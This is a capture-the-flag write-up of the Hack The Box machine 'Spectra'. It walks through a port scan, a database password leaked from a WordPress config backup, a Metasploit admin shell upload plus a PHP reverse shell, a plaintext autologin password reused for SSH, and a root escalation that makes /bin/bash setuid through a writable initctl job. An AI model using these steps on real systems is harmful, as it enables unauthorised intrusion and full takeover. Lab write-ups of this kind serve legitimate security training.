

    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 8.1 (protocol 2.0)
    80/tcp   open  http    nginx 1.17.4
    3306/tcp open  mysql   MySQL (unauthorized)
    
Visiting the linked site we find a testing area and by visitng http://spectra.htb/testing/ with a borwser we get the listing of the content.

In the sourcecode of wp-config.php.save we can find the DB passowrd devteam01:
    
    view-source:http://spectra.htb/testing/wp-config.php.save
    
    // ** MySQL settings - You can get this info from your web host ** //
    /** The name of the database for WordPress */
    define( 'DB_NAME', 'dev' );

    /** MySQL database username */
    define( 'DB_USER', 'devtest' );

    /** MySQL database password */
    define( 'DB_PASSWORD', 'devteam01' );

    /** MySQL hostname */
    define( 'DB_HOST', 'localhost' );

    /** Database Charset to use in creating database tables. */
    define( 'DB_CHARSET', 'utf8' );

    /** The Database Collate type. Don't change this if in doubt. */
    define( 'DB_COLLATE', '' );
    
With the password and the username "administrator" of the blog we can use meterpreter:

    unix/webapp/wp_admin_shell_upload
    


In meterpreter we can upload a shell to /usr/local/share/nginx/html/main/wp-content/plugins/:
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

Set up the listener and visit http://spectra.htb/main/wp-content/plugins/php-reverse-shell.php 

At /opt we can find a weird config:

    # Copyright 2016 The Chromium OS Authors. All rights reserved.
    # Use of this source code is governed by a BSD-style license that can be
    # found in the LICENSE file.
    description   "Automatic login at boot"
    author        "chromium-os-dev@chromium.org"
    # After boot-complete starts, the login prompt is visible and is accepting
    # input.
    start on started boot-complete
    script
      passwd=
      # Read password from file. The file may optionally end with a newline.
      for dir in /mnt/stateful_partition/etc/autologin /etc/autologin; do
        if [ -e "${dir}/passwd" ]; then
          passwd="$(cat "${dir}/passwd")"
          break
        fi
      done
      if [ -z "${passwd}" ]; then
        exit 0
      fi
      # Inject keys into the login prompt.
      #
      # For this to work, you must have already created an account on the device.
      # Otherwise, no login prompt appears at boot and the injected keys do the
      # wrong thing.
      /usr/local/sbin/inject-keys.py -s "${passwd}" -k enter
    end script
    
Following this /etc/autologin path you will find a passwd file with:

    "SummerHereWeCome!!"
    
That password we can use to login via ssh as katie.


Using sudo -l gives us:
```
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
```


With 
```
sudo -u root /sbin/initctl list
```
we get services like:
```
smbproviderd stop/waiting
tpm_managerd start/running, process 826
udev start/running, process 238
test stop/waiting
test1 stop/waiting
autologin stop/waiting
boot-services start/running

```
Now we can modify the test service at /etc/init to get a root shell like:
```
script

    chmod +s /bin/bash

end script
```
And spawn it with:
```
katie@spectra /etc/init $ sudo /sbin/initctl start test
test start/running, process 4011
katie@spectra /etc/init $ /bin/bash -p
bash-4.3# whoami
root
```
(see: https://isharaabeythissa.medium.com/sudo-privileges-at-initctl-privileges-escalation-technique-ishara-abeythissa-c9d44ccadcb9 )


